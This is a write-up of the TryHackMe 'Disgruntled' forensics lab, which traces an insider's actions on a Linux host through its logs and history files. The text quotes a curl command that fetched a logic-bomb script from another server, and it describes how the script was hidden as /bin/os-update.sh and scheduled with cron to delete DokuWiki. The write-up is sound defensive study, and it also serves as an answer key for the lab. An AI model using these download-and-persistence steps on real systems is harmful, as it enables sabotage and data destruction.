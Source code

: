# [TryHackMe - Disgruntled](https://tryhackme.com/room/disgruntled)
![17bf632054e2a09eb9bca1918230589d.png](../../_resources/17bf632054e2a09eb9bca1918230589d.png)
***
[toc]
***
## Introduction
**Hey, kid! Good, you’re here!**

**Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.**

**CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.**

![bcfe2405d78c8e84ae8a4409e2046897.png](../../_resources/bcfe2405d78c8e84ae8a4409e2046897.png)

After deployed the machine, we automatically accessed the compromised machine as root so we have to conduct an investigation with cares since root privilege can tampered with live evidence and we have to redeploy to machine it if we accidently deleted critical evidences

* * *
## Nothing suspicious... So far
**Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.**

**My advice: Look at the privileged commands that were run. That should get you started.**

>The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

If we're looking for privileged commands, the best places to check are `bash_history` of root user and `auth.log`, which keeps track of authentication events and also commands executed by user using `sudo` as well.

![165a61600129eb8cf564494246c2350a.png](../../_resources/165a61600129eb8cf564494246c2350a.png)

To filter out commands from auth.log, we can run `grep COMMAND /var/log/auth.log`. This helps us see what was run with elevated privileges. Looking at the logs, it turns out the "cybert" user installed **DokuWiki** using `apt` with `sudo`.

```
/usr/bin/apt install dokuwiki
```

>What was the present working directory (PWD) when the previous command was run?

![2533faf610bc1b86492d48d458158ae3.png](../../_resources/2533faf610bc1b86492d48d458158ae3.png)

We can see that most commands are executed from home directory of "cybert" user including the previous command we found as well.

```
/home/cybert
```

***
## Let’s see if you did anything bad
**Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.**

>Which user was created after the package from the previous task was installed?

![784ff15d7a1460a2fe90be27bbff919e.png](../../_resources/784ff15d7a1460a2fe90be27bbff919e.png)

After installed DokuWiki, user then created another user "it-admin" with `sudo`

```
it-admin
```

>A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

![374681854fe24f5e02fe8cda5c61602a.png](../../_resources/374681854fe24f5e02fe8cda5c61602a.png)

Notice that `visudo` was used and then "it-admin" was found to executed command as root via `sudo` which mean user edited `/etc/sudoers` file to make "it-admin" user can execute command as root.

![1dcfee70068c19ae705f1cdecbe54990.png](../../_resources/1dcfee70068c19ae705f1cdecbe54990.png)

To match the timeline from the audit log, we can use `stat /etc/sudoers` to display statistic of a file which included Access, Modify and Change timestamp as well and as we can see from the above image, the modify and change timestamp matches the timestamp of `visudo` binary usage in audit log.

```
Dec 28 06:27:34
```

>A script file was opened using the "vi" text editor. What is the name of this file?

![ce7f4352d887a68046d805014b4e3718.png](../../_resources/ce7f4352d887a68046d805014b4e3718.png)

Then after that, we can see that "it-admin" user used `vi` to edit `bomb.sh` file.

```
bomb.sh
```
* * *
## Bomb has been planted. But when and where?
**That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.**

>What is the command used that created the file `bomb.sh`?

![ac6c2787b16650d9e7ee4997241b2d33.png](../../_resources/ac6c2787b16650d9e7ee4997241b2d33.png)

Upon accessing "it-admin" user's home directory, `bomb.sh` was nowhere to be found so we have to inspect `.bash_history` to find out what happened and it turns out, the file was not newly created on this machine but fetched from other server using `curl` but we could also see that "it-admin" removed `bomb.sh` later which is the reason why we could not find this file on this user's home directory

```
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

>The file was renamed and moved to a different directory. What is the full path of this file now?

![4d52d81b8183beffcebf791b77ef1079.png](../../_resources/4d52d81b8183beffcebf791b77ef1079.png)

Since we know that user use `vi` to edit file then we can inspect `.viminfo` file for any history related to `vi` and we can see that the file was saved as `/bin/os-update.sh`. 

```
/bin/os-update.sh
```

>When was the file from the previous question last modified? (Format: Month Day HH:MM)

![26975dd3ecb73bdadb7176e0c3bbb1d7.png](../../_resources/26975dd3ecb73bdadb7176e0c3bbb1d7.png)

We could copy UNIX timestamp from `.viminfo` and convert it but lets just use `stat /bin/os-update.sh` since its a lot easier which we can see that upon saving this file, there is no modification on this file after that.

```
Dec 28 06:29
```

>What is the name of the file that will get created when the file from the first question executes?

![fe845f14134c336b683768d9f7c7e7ca.png](../../_resources/fe845f14134c336b683768d9f7c7e7ca.png)

Lets see what's inside this file, and It appears to be a logic bomb to remove dokuwiki installation directory if "it-admin" user hasn't logged in in the last 90 days and will also create a file with taunting message after the deletion.

```
goodbye.txt
```
* * *
## Following the fuse
**So we have a file and a motive. The question we now have is: how will this file be executed?**

**Surely, he wants it to execute at some point?**

>At what time will the malicious file trigger? (Format: HH:MM AM/PM)

![e1761a6c71c0ca4c1ba3d1b43937c999.png](../../_resources/e1761a6c71c0ca4c1ba3d1b43937c999.png)

From bash history file, we found that user also use nano to edit `/etc/crontab` file which responsible for global cronjob of the system.

![d90c8c91f5a6d762c24345a2f4386816.png](../../_resources/d90c8c91f5a6d762c24345a2f4386816.png)

By inspecting the file, we can see that the logic bomb script is set to  execute at 08:00 AM everyday.

```
08:00 AM
```

![8224f9be9ee9d6849e876d2dcaecbcc6.png](../../_resources/8224f9be9ee9d6849e876d2dcaecbcc6.png)

And we are done.

![95bdfe7c4391d8ba2e289081f79950b8.png](../../_resources/95bdfe7c4391d8ba2e289081f79950b8.png)
https://tryhackme.com/chicken0248/badges/handle-the-disgruntled

***